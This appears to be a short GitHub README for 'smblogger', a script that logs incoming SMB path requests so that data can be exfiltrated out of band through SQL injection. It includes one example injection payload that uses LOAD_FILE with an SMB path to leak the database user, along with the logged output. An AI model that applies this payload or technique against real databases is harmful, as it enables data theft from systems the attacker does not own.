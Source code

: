 # smblogger
Log requests of requested SMB paths (for OOB exploits). This script was made for educational purposes.

#### What do I need it for?
This is useful in situations where you want to exfiltrate data via SMB. For example, you found SQL injection but you don't have a domain or can't use DNS. This is common inside private networks without internet access.

For example, let's say you injected the following query:
`SELECT * FROM test WHERE 1=1 OR LOAD_FILE(CONCAT("\\\\127.0.0.1\\",USER()))`

The script would output:
`[-] SMB2_TREE_CONNECT root@localhost`
